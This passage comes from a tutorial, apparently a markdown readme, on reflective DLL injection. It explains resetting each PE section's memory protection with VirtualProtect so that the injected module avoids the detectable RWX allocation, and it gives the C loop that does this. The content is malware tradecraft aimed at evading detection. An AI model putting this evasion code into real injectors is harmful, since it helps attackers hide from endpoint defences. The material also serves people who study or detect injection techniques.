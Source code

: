 ```c
	return TRUE;

}
```

## Re-Define Memory Permissions

If we were not to reset the memory permissions we would have to allocate with RWX which is a strong indicator, so it would end up looking like this in the memory mapping of the injected process:

![img](../commons/reflective_dll_injection/img2.png)

Resetting permissions is very simple, we will perform a loop and make comparisons to find out what is the appropriate memory definition for each section and we will use the VirtualProtect API to correct them:

```c
for ( int i = 0; i < pImgNtHdrs->FileHeader.NumberOfSections; i++ ) {

DWORD	dwProtection	= 0x00;
DWORD	dwOldProtection	= 0x00;

if ( !pImgSectHdr[i].SizeOfRawData || !pImgSectHdr[i].VirtualAddress )
    continue;

if ( pImgSectHdr[i].Characteristics & IMAGE_SCN_MEM_WRITE )
    dwProtection = PAGE_WRITECOPY;

if ( pImgSectHdr[i].Characteristics & IMAGE_SCN_MEM_READ )
    dwProtection = PAGE_READONLY;

if ( ( pImgSectHdr[i].Characteristics & IMAGE_SCN_MEM_WRITE ) && (pImgSectHdr[i].Characteristics & IMAGE_SCN_MEM_READ))
    dwProtection = PAGE_READWRITE;

if (pImgSectHdr[i].Characteristics & IMAGE_SCN_MEM_EXECUTE)
    dwProtection = PAGE_EXECUTE;

if ((pImgSectHdr[i].Characteristics & IMAGE_SCN_MEM_EXECUTE) && (pImgSectHdr[i].Characteristics & IMAGE_SCN_MEM_WRITE))
    dwProtection = PAGE_EXECUTE_WRITECOPY;

if ((pImgSectHdr[i].Characteristics & IMAGE_SCN_MEM_EXECUTE) && (pImgSectHdr[i].Characteristics & IMAGE_SCN_MEM_READ))
    dwProtection = PAGE_EXECUTE_READ;

if ((pImgSectHdr[i].Characteristics & IMAGE_SCN_MEM_EXECUTE) && (pImgSectHdr[i].Characteristics & IMAGE_SCN_MEM_WRITE) && (pImgSectHdr[i].Characteristics & IMAGE_SCN_MEM_READ))
    dwProtection = PAGE_EXECUTE_READWRITE;

if ( !pVirtualProtect( (PVOID)(DllAddr + pImgSectHdr[i].VirtualAddress), pImgSectHdr[i].SizeOfRawData, dwProtection, &dwOldProtection ) ) {
    return;
    }
}
```
